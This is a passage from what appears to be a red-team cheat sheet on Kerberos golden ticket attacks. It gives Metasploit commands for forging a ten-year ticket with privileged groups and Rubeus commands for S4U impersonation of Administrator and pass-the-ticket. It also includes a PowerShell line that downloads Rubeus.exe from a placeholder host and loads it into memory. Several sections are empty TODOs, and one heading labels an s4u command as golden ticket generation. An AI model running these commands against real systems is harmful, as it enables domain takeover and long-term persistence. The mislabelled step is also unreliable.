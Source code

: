 By default it is set to "administrator"

```
msf post(windows/esclate/golden_ticket) > set user <username>

msf post(windows/esclate/golden_ticket) > set session <session_id>
```

By default it is set to 87608 (duration of 10 years)

```
msf post(windows/esclate/golden_ticket) > set end_in <>

msf post(windows/esclate/golden_ticket) > set groups 512,513,518,519,520

msf post(windows/esclate/golden_ticket) > run

msf post(windows/esclate/golden_ticket) > sessions -i <session_id>
```

### 1.4 - Sliver

TODO: Fill this info

### 1.5 - Covenant

TODO: Fill this info

### 1.6 - Cobalt Strike

TODO: Fill this info

## 02 - Rubeus

### 2.1 - Manual

#### 2.1.1 - Pass The Ticket

- Run it memory

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadString('http://<IP>/Rubeus.exe')
$assembly = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("purge".Split())
```

- Generate a golden ticket

```powershell
PS C:\> [Rubeus.Program]::Main("s4u /user:<username> /rc4:<ntlm_hash> /impersonateuser:Administrator /msdsspn:<SPN>/<IP> /ptt".Split())

PS C:\> Rubeus.exe s4u /user:<username> /rc4:<ntlm_hash> /impersonateuser:Administrator /msdsspn:<SPN>/<IP> /ptt

PS C:\> klist

PS C:\> Rubeus.exe triage

PS C:\> Rubeus.exe klist

PS C:\> ls \\<IP>\c$

PS C:\> Rubeus.exe ptt /ticket:golden_ticket.kirbi

PS C:\> Rubeus.exe ptt /ticket:<base64_encoded_golden_ticket>
```
